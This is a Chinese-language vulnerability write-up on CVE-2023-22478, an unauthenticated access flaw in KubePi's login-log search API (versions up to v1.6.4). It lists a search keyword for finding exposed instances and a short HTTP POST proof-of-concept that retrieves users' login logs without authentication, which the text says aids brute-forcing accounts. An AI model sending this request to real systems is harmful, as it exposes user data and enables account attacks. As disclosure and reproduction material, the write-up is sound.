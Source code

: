 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

# KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面

![image-20230504141145409](images/image-20230504141145409.png)

补丁中对路由加了身份验证

![image-20230504141203464](images/image-20230504141203464.png)

对应的接口为

![image-20230504141218134](images/image-20230504141218134.png)

验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![image-20230504141241265](images/image-20230504141241265.png)

